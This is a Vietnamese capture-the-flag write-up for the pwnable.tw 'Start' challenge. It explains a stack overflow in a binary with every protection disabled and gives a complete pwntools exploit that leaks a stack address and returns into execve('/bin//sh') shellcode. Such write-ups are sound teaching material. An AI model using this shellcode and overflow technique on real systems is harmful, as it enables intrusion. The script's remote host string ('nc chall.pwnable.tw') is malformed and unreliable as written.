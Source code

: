 # pwnable.tw - Start

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped

```
Đây là file 32-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

Full security disable 

Tiếp đến đưa file vào ida-32bit

![ida.png](images/ida.png)

# 2. Ý tưởng

Đầu tiên bài này sử dụng `sys_write` để đọc giá trị tại địa chỉ của stack thông qua esp.

![ida1.png](images/ida1.png)

Từ đây sẽ in ra chuỗi `Let's start the CTF:` trong stack.

Tiếp đến là đọc chuỗi input của ta nhập vào và lưu vào stack

![ida2.png](images/ida2.png)

Ở đây lưu giá trị 0x3c vào dl -> số ký tự nhập vào là 0x3c

Mà chỉ `add esp, 0x14`

-> Lợi dụng điểu này ghi đè vào địa chỉ trả về ở trên stack

# 3. Khai thác

- Bước 1: Leak addr

```
mov_ecx_esp = 0x8048087
payload = flat(
    b"a"*20,
    mov_ecx_esp
    )
p.sendafter(b" CTF:",payload)
leak = int.from_bytes(p.recv(8),"little") - 0x100000000
```

Ở đây ta sẽ ghi đè 20 bytes tới `ret_addr` và ghi đoạn `mov_ecx_esp` vào `ret-addr`

Tại sao lại là `mov_ecx_esp`:

![stack.png](images/stack.png)

Nếu ta quay lại đầu hàm main thì stack lại bị lưu đoạn `Let's start the CTF:` lên stack

-> Nhảy qua đoạn này để leak địa chỉ từ stack.

- Bước 2: ret2shellcode

```
shellcode = b"\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
shellcode_addr = leak + 20
print("[-]Leak:             ", hex(leak))
print("[-]Shellcode_addr:   ", hex(shellcode_addr))
payload = flat(
    b"B"*20,
    shellcode_addr,
    shellcode
    )
p.sendline(payload)
```

Từ địa chỉ được lưu trữ ta tính được địa chỉ shell 

-> ret2shellcode

# Get_shell

![shell.png](images/shell.png)


# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("start")
libc = elf.libc

local = True 
if local:
    p = process("./start")
    #p = elf.debug(gdbscript='''''')
else:
    p = remote('nc chall.pwnable.tw', 10000)

elf = context.binary = ELF('./start', checksec=False)


mov_ecx_esp = 0x8048087
payload = flat(
    b"a"*20,
    mov_ecx_esp
    )
p.sendafter(b" CTF:",payload)
leak = int.from_bytes(p.recv(8),"little") - 0x100000000

shellcode = b"\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
shellcode_addr = leak + 20
print("[-]Leak:             ", hex(leak))
print("[-]Shellcode_addr:   ", hex(shellcode_addr))
payload = flat(
    b"B"*20,
    shellcode_addr,
    shellcode
    )
p.sendline(payload)


p.interactive()
```


